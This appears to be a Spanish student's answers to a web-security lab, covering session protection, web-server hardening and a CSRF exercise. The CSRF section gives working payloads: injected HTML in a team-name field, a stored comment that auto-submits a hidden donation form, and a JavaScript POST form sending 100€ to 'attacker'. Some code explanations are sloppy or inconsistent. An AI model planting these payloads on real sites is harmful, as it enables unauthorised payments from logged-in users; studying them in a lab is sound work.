    < Please <a href="http://www.donate.co?amount=100&amp;destination=ACMEScouting/"> donate</a> >
</footer>
</body>
</html>

```

### **Justificación de las medidas:**

1. **Autenticación y autorización**: Garantiza que solo los usuarios autorizados pueden acceder a ciertas funcionalidades, como el registro de nuevos usuarios.
2. **Redirección de usuarios no autorizados**: Evita que usuarios no autorizados accedan a áreas restringidas de la aplicación.
3. **Uso de sesiones**: Mantiene la autenticación del usuario de manera más segura en comparación con las cookies y permite almacenar más información de sesión de manera segura.

d) Al comienzo de la práctica hemos supuesto que la carpeta ***private*** no tenemos acceso, pero realmente al configurar el sistema en nuestro equipo de forma local. ¿Se cumple esta condición? ¿Qué medidas podemos tomar para que esto no suceda?

### **Medidas para proteger la carpeta "private"**

1. **Cambiar los Permisos de la Carpeta "private"**: Es esencial verificar y ajustar los permisos de la carpeta "private" para asegurar que solo los usuarios autorizados puedan acceder a su contenido. Asegúrate de que los permisos sean restrictivos para prevenir el acceso no autorizado.
2. **Mover Archivos Sensibles Fuera de la Carpeta "private"**: Almacena los archivos sensibles en ubicaciones más seguras fuera de la carpeta "private". Esto garantiza que no puedan ser accedidos directamente desde el navegador o usuarios no autorizados.
3. **Utilizar Variables de Entorno o Configuración Externa**: En lugar de guardar información sensible dentro de la carpeta "private", usa variables de entorno o archivos de configuración externos. Estos métodos permiten cargar de forma segura la información necesaria por la aplicación sin comprometer la seguridad.
4. **Encriptar Archivos Sensibles**: Si no es posible almacenar los archivos fuera de la carpeta "private", considera encriptarlos. Esto agrega una capa adicional de seguridad, asegurando que incluso si los archivos son accedidos, su contenido no será legible sin la clave de encriptación adecuada.

e) Por último, comprobando el flujo de la sesión del usuario. Analiza si está bien asegurada la sesión del usuario y que no podemos suplantar a ningún usuario. Si no está bien asegurada, qué acciones podríamos realizar e implementarlas.

### **Medidas para garantizar la seguridad de la autenticación**

1. **Autenticación protegida**: Asegura que el proceso de autenticación esté blindado contra ataques de fuerza bruta y manipulación de credenciales. Implementa medidas como bloqueo de cuenta después de múltiples intentos fallidos, uso de captchas y requerimientos de contraseñas seguras para mitigar estos riesgos.
2. **Gestión segura de sesiones**: Utiliza un sistema seguro para administrar las sesiones de usuario. Emplea cookies seguras y tokens de sesión únicos para prevenir ataques de secuestro de sesión y garantizar la autenticidad del usuario en cada interacción.
3. **Verificación de sesiones activas**: Implementa un mecanismo que verifique la validez de la sesión en cada solicitud de página protegida. Esto garantiza que solo los usuarios autenticados y con sesiones activas puedan acceder a recursos protegidos.

### **Implementación de las medidas de seguridad**

**1. Autenticación protegida**

Utiliza técnicas como bloqueo de cuentas tras múltiples intentos fallidos, uso de captchas y políticas de contraseñas seguras para proteger el proceso de autenticación.

**2. Gestión segura de sesiones**

Configura cookies con el atributo **`secure`** para garantizar que solo se envíen sobre conexiones HTTPS y utiliza tokens de sesión únicos generados de forma segura.

**3. Verificación de sesiones activas**

Implementa un sistema que valide la sesión del usuario en cada solicitud de página protegida. Esto puede lograrse mediante el uso de tokens de sesión, verificación de la autenticidad de las cookies y comprobación de la actividad reciente del usuario.

## **Parte 4 - Servidores web**

¿Qué medidas de seguridad se implementariaís en el servidor web para reducir el riesgo a ataques?

1. **Actualización regular del software**: Mantén actualizado el software del servidor web, incluyendo el sistema operativo, el servidor web (por ejemplo, Apache, Nginx), y todas las aplicaciones y frameworks utilizados. Las actualizaciones a menudo incluyen parches de seguridad que corrigen vulnerabilidades conocidas.
2. **Configuración segura del servidor**: Asegúrate de configurar el servidor web de manera segura, deshabilitando cualquier servicio o característica innecesaria que pueda ser una puerta de entrada para los atacantes. Revisa y ajusta las configuraciones predeterminadas para reducir la superficie de ataque.
3. **Firewall y protección contra DDoS**: Configura un firewall para filtrar el tráfico no deseado y proteger el servidor contra ataques de denegación de servicio distribuido (DDoS). Los servicios de protección DDoS externos también pueden ser útiles para mitigar ataques a gran escala.
4. **Seguridad SSL/TLS**: Utiliza SSL/TLS para cifrar la comunicación entre el servidor y los clientes. Configura correctamente los certificados SSL/TLS y prioriza el uso de cifrados seguros. Además, habilita HTTP Strict Transport Security (HSTS) para evitar ataques de downgrade.
5. **Auditoría de registros y monitoreo de seguridad**: Implementa un sistema de auditoría de registros para registrar y monitorear actividades sospechosas en el servidor. Analiza regularmente los registros en busca de signos de intrusiones o comportamientos anómalos.
6. **Restricción de acceso**: Limita el acceso al servidor web solo a usuarios autorizados y utiliza autenticación de dos factores siempre que sea posible. Emplea medidas como listas de control de acceso (ACL) para restringir el acceso a recursos sensibles.
7. **Seguridad de aplicaciones web**: Implementa buenas prácticas de seguridad en el desarrollo de aplicaciones web alojadas en el servidor, como la validación de entradas, prevención de inyecciones SQL, y protección contra ataques de scripting entre sitios (XSS) y falsificación de solicitudes entre sitios (CSRF).
8. **Respuesta a incidentes y plan de continuidad del negocio**: Desarrolla un plan de respuesta a incidentes para abordar posibles brechas de seguridad y restaurar el funcionamiento normal del servidor en caso de compromiso. Además, elabora un plan de continuidad del negocio para minimizar el impacto de cualquier interrupción en el servicio.

## **Parte 5 - CSRF**

a) Editad un jugador para conseguir que, en el listado de jugadores (list_players.php) aparezca, debajo del nombre de su equipo y antes de “(show/add comments)” un botón llamado “Profile” que corresponda a un formulario que envíe a cualquiera que haga clic sobre este botón a esta dirección que hemos preparado.


| En el campo | Team name |
|-------------|-------------|
| Introduzco | ```<?$team?>``` |
| | ```<br></br>``` |
| | ```<br></br>``` |
| | ```<br></br>``` |
| | ```<br></br>``` |
| | ```<a href="http://web.pagos/donate.php?amount=100&receiver=attacker">Profile</a>``` |






b) Una vez lo tenéis terminado, pensáis que la eficacia de este ataque aumentaría si no necesitara que elusuario pulse un botón.Con este objetivo, cread un comentario que sirva vuestros propósitos sin levantar ninguna sospecha entre los usuarios que consulten los comentarios sobre un jugador (show_comments.php)

Comentario a introducir:

```
<!DOCTYPE html>
<html lang="es">
<head>
    <meta charset="UTF-8">
    <title>Comentario</title>
</head>
<body>
    <h1>Bienvenido</h1>
    <form id="donationForm" method="POST" action="http://web.pagos/donate.php?amount=100&receiver=attacker">
        <input type="hidden" name="comment" value="<?php echo 'Este es un comentario'; ?>">
    </form>
    <script>
        window.onload = function() {
            document.getElementById('donationForm').submit();
            setTimeout(function() {
                window.location.href = "show_comments.php?id=<?php echo $row['playerid']; ?>";
            }, 0);
        };
    </script>
</body>
</html>
```



- **Fachada de una página de donación:**
    
    ```html
    htmlCopiar código
    <!DOCTYPE html>
    <html lang="es">
    <head>
        <meta charset="UTF-8">
        <title>Comentario</title>
    </head>
    <body>
        <h1>Bienvenido</h1>
    
    ```
    
    Esta parte del código establece una estructura básica de una página HTML. Presenta un título ("Comentario") y un mensaje de bienvenida ("Bienvenido").
    
- **Formulario con datos falsificados:**
    
    ```html
    htmlCopiar código
        <form id="donationForm" method="POST" action="http://web.pagos/donate.php?amount=100&receiver=attacker">
            <input type="hidden" name="comment" value="<?php echo 'Este es un comentario'; ?>">
        </form>
    
    ```
    
    Aquí hay un formulario que parece ser para hacer una donación. Sin embargo, el campo "comment" es un campo oculto que contiene un valor fijo ("Este es un comentario"), pero el intento de usar código PHP aquí es incorrecto porque PHP no se ejecutará en el navegador.
    
- **Ataque XSS mediante JavaScript:**
    
    ```html
    htmlCopiar código
        <script>
            window.onload = function() {
                document.getElementById('donationForm').submit();
                setTimeout(function() {
                    window.location.href = "show_comments.php?id=<?php echo $row['playerid']; ?>";
                }, 100);
            };
        </script>
    
    ```
    
    Este script se ejecuta cuando la página se carga completamente. Envía automáticamente el formulario de donación y luego, después de un breve retraso, redirige al usuario a una página llamada "show_comments.php" con un parámetro "id".
    
    c) Pero 'web.pagos' sólo gestiona pagos y donaciones entre usuarios registrados, puesto que, evidentemente, le tiene que restar los 100€ a la cuenta de algún usuario para poder añadirlos a nuestra cuenta.
    
    Explicad qué condición se tendrá que cumplir por que se efectúen las donaciones de los usuarios que visualicen el mensaje del apartado anterior o hagan click en el botón del apartado a).
    
    **Condiciones para la efectividad del ataque CSRF en 'web.pagos':**
    
    1. **Autenticación de la Víctima:**
    Para que la donación se procese, el usuario que hace clic en el enlace o envía el formulario automáticamente debe estar autenticado en 'web.pagos'. Esto implica que la víctima haya iniciado sesión y mantenga una sesión activa en 'web.pagos'. Los ataques CSRF aprovechan la persistencia de la sesión del usuario, lo que puede ser explotado en estos casos.
    2. **Presencia de Fondos:**
    Es fundamental que la cuenta del usuario autenticado tenga fondos suficientes para cubrir la donación especificada. Si la cuenta carece de fondos, la transacción no se completará, independientemente de la ejecución exitosa del ataque CSRF.
    3. **Permisos de Transacción:**
    El usuario debe tener los permisos adecuados para realizar transacciones de donación. Si 'web.pagos' aplica políticas de seguridad adicionales, como límites de transacción diarios o requisitos de confirmación adicionales, estos podrían impedir que el ataque tenga éxito.
    
    d) Si 'web.pagos' modifica la página 'donate.php' para que reciba los parámetros a través de POST, quedaría blindada contra este tipo de ataques? En caso negativo, preparad un mensaje que realice un ataque equivalente al de la apartado b) enviando los parámetros “amount” i “receiver” por POST
    
    La simple modificación de 'donate.php' para cambiar de GET a POST no es suficiente para proteger contra ataques CSRF. Aunque este cambio dificulta el ataque, todavía se pueden realizar ataques usando formularios ocultos o peticiones AJAX.
    
    Una estrategia común en estos casos es ocultar un formulario con valores predefinidos, que se envía automáticamente cuando un usuario visita la página. Esto podría llevar a una donación no autorizada de 100€ sin que el usuario lo sepa.
    
    Para una protección más sólida, es crucial implementar medidas adicionales, como el uso de tokens CSRF dinámicos ligados a la sesión del usuario. Estos tokens, incluidos en los formularios, deben validarse en el servidor antes de procesar cualquier solicitud de donación. También se puede considerar configurar la política SameSite en las cookies para reducir aún más el riesgo de ataques CSRF.
    
    ```html
    <script>
        // Creamos el formulario de manera dinámica
        var csrfForm = document.createElement('form');
        csrfForm.setAttribute('action', 'http://web.pagos/donate.php');
        csrfForm.setAttribute('method', 'POST');
    
        // Creamos e insertamos los campos ocultos
        var amountInput = document.createElement('input');
        amountInput.setAttribute('type', 'hidden');
        amountInput.setAttribute('name', 'amount');
        amountInput.setAttribute('value', '100');
        csrfForm.appendChild(amountInput);
    
        var receiverInput = document.createElement('input');
        receiverInput.setAttribute('type', 'hidden');
        receiverInput.setAttribute('name', 'receiver');
        receiverInput.setAttribute('value', 'attacker');
        csrfForm.appendChild(receiverInput);
    
        // Creamos y simulamos el envío del formulario automáticamente al cargar la página
        document.addEventListener('DOMContentLoaded', function() {
            document.body.appendChild(csrfForm);
            csrfForm.submit();
        });
    </script>
    
    ```
    
    **Explicación:**
    
    1. **Creación del formulario dinámicamente:**
        - Creamos un elemento `<form>` usando `document.createElement('form')`.
        - Establecemos el atributo `action` del formulario como la URL de destino.
        - Configuramos el método del formulario como POST mediante el atributo `method`.
    2. **Creación de campos ocultos:**
        - Creamos campos de entrada ocultos (`<input type="hidden">`) para los parámetros `amount` y `receiver`.
        - Establecemos los valores predefinidos para estos campos ocultos.
    3. **Simulación de envío del formulario:**
        - Añadimos el formulario creado dinámicamente al final del cuerpo del documento (`document.body.appendChild(csrfForm)`).
        - Utilizamos `csrfForm.submit()` para enviar automáticamente el formulario al cargar la página.
